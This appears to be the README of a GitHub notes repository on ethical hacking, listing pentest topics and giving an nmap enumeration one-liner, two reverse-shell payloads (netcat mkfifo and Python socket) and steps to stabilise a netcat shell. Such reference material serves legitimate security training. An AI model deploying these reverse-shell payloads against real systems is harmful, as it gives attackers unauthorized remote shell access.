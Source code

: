 # ScriptKiddie

This repo contains some concepts and code snippets related to Ethical hacking. The Contents are given in alphabetical order.

***Disclaimer: This is for educational purpose and not to gain unauthorized access. Using your hacking skills on machines withuot permissions is illegal, so use it with responsibility***
## Contents
- [Burp & OWASP ZAP](./concepts/16.md)
- [chisel](./concepts/9.md)
- [Cross-site request forgery (CSRF)](./concepts/20.md)
- [CVE](./concepts/13.md)
- [Directory traversal](./concepts/23.md)
- [Django](./concepts/15.md)
- [enum4linux]
- [Gobuster](./concepts/12.md)
- [Linux PrivEsc, LinPEAS & LinEnum](./concepts/17.md)
- [Networking tools](./concepts/2.md)
- [Nikto](./concepts/11.md)
- [nmap](./concepts/2a.md)
- [OSI & TCP/IP Model](./concepts/1.md)
- [OWASP Top 10](./concepts/14.md)
- [Pivoting](./concepts/4.md)
- [proxychain](./concepts/6.md)
- [Server-side request forgery (SSRF)](./concepts/19.md)
- [shell](./concepts/5.md)
- [socat](./concepts/7.md)
- [ssh]
- [sshuttle](./concepts/8.md)
- [SQLi](./concepts/24.md)
- [Static binaries](./concepts/10.md)
- [Websites basics](./concepts/3.md)
- [XXE](./concepts/22.md)


## Enumeration

```
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```

## Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
[Github Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.

